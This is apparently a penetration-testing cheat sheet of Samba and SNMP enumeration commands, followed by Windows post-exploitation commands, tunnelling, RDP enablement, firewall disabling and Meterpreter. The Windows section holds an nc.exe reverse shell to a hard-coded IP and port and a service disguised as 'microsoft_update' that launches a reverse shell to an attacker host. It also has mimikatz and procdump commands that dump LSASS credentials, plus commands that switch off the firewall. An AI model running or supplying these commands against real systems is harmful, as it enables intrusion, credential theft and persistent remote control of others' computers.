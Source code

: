 **Samba Enumeartion:    
**

nmblookup -A target

smbclient //MOUNT/share -I target -N

rpcclient -U “” target

enum4linux target

**SNMP Enumeration:    
**

snmpget -v 1 -c public IP version

snmpwalk -v 1 -c public IP

snmpbulkwalk -v 2 -c public IP

**Windows Useful commands:**

net localgroup Users

net localgroup Administrators

search dir/s \*.doc

system\(“start cmd.exe /k $cmd”\)

sc create microsoft\_update binpath=”cmd /K start c:\nc.exe -d ip-of-hacker port -e cmd.exe” start= auto error= ignore

/c C:\nc.exe -e c:\windows\system32\cmd.exe -vv 23.92.17.103 7779

mimikatz.exe “privilege::debug” “log” “sekurlsa::logonpasswords”

Procdump.exe -accepteula -ma lsass.exe lsass.dmp

mimikatz.exe “sekurlsa::minidump lsass.dmp” “log” “sekurlsa::logonpasswords”

C:\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp For 32 bits

C:\temp\procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp For 64 bits

**Plink Tunnel**:

plink.exe -P 22 -l root -pw “1234” -R 445:127.0.0.1:445 X.X.X.X

**Enable RDP Access:**

reg add “hklm\system\currentcontrolset\control\terminal server” /f /v fDenyTSConnections /t REG\_DWORD /d 0

netsh firewall set service remoteadmin enable

netsh firewall set service remotedesktop enable

**Turn Off Firewall:**

netsh firewall set opmode disable

**Meterpreter:**

run getgui -u admin -p 1234
